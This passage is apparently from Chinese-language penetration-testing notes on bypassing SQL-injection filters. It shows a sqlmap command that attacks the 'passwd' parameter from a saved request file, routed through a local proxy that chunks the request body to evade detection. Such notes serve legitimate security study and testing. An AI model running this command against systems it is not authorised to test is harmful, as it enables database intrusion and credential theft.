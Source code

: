 > 交互栏的传输内容任意

在 sqlmap 指定请求文件和代理爆破

```
┌──(root㉿kali-31)-[~]
└─# sqlmap -r reg.txt --technique U -p passwd --batch --proxy=http://192.168.1.16:8080
```

![在 sqlmap 指定请求文件和代理爆破](./../../../images/SQLi%20Bypass/%E5%9C%A8%20sqlmap%20%E6%8C%87%E5%AE%9A%E8%AF%B7%E6%B1%82%E6%96%87%E4%BB%B6%E5%92%8C%E4%BB%A3%E7%90%86%E7%88%86%E7%A0%B4.png)

> 可以看到经过扩展的请求体自动进行了分块处理

